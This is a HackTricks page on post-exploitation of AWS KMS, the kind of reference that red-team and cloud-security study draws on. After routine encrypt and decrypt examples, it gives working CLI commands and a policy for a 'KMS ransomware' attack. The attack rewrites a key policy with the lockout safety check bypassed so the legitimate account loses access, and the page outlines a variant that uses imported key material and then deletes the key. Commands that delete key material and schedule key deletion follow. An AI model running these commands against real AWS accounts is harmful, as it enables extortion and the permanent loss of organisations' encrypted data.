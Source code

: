 # AWS - KMS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

For more information check:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

* Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

* Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service taht has been encrypted with those keys, creating an easy but effective ransomware over the account.

{% hint style="warning" %}
Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).
{% endhint %}

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

{% hint style="danger" %}
Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

* Create a new **key with a key material** imported by the attacker
* **Re-encrypt older data** encrypted with the previous version with the new one.
* **Delete the KMS key**
* Now only the attacker, who has the original key material could be able to decrypt the encrypted data

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

{% hint style="danger" %}
Note that AWS now **prevents the previous actions from being performed from a cross account:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
